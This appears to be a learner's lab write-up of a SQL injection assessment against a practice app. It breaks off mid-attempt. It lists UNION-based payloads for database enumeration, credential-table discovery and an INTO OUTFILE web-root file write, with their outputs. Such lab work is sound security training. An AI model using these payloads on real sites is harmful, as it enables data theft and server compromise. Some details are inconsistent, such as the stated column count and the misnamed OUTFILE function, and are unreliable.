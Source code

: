 # Assessment

Here is the first successful injection results:

>cn' UNION select 1,2,3-- -

With the resulting output:

>Adam 	January 	1337$ 	5%
>James 	March 	1213$ 	8%

I then iterated through another UNION query to find out how many columns were in the table I am accessing:

>cn' UNION SELECT 1,2,3,4,5-- -

Once I determined there were four columns with the above injection, I used \@@version to determine the current version of the database being used:

>cn' UNION SELECT 1,\@@version,3,4,5-- -

This returned:

>10.3.22-MariaDB-1ubuntu1

Then I wanted to determine the current database name using the following query:

>cn' UNION SELECT 1,database(),3,4,5-- -

Which returned:

>ilfreight

Now that I knew the name of the database being used, I decided to determine what other databases were available with the following injection:

>cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -

This returned the following:

>information_schema 	3 	4 	5
>mysql 	3 	4 	5
>performance_schema 	3 	4 	5
>ilfreight 	3 	4 	5
>backup 	3 	4 	5

From here I ruled out the default databases named information_schema, mysql, and performance_schema, and focused on the remaining databases named ilfreight and backup.

Now I decided to discover all the tables within the two databases of interest with the two following statements:

>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -

>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -

These queries had the following output respectively:

>payment 	ilfreight 	4 	5
>users 	ilfreight 	4 	5

>admin_bk 	backup 	4 	5

Now I determined that I would list all columns of the admin_bk and backup tables from the backup database:

>cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='admin_bk'-- -

>cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='backup'-- -

This generated the following output respectively:

>username 	admin_bk 	backup 	5
>password 	admin_bk 	backup 	5

>(no output)

Now I decided to dump data from a table in another database:

>c' UNION select 1, username, password, 4, 5 from username.backup-- -

>c' UNION select 1, username, password, 4, 5 from password.backup-- -

This returned that the targets did not exist. I decided to try again using admin_bk instead of backup:

>c' UNION select 1, username, password, 4, 5 from password.admin_bk-- -

Similar results. Clearly I have a problem with my database.table part of the query.

When I tried backup.username, this was still incorrect.

I then watched a bit of a youtube vid and tried to use the OUTPUT INTO function to write to the file proof.txt:

>cn' UNION SELECT 1, 'file written successfully!', 3, 4,5 INTO OUTFILE '/dashboard/var/www/html/proof.txt'-- -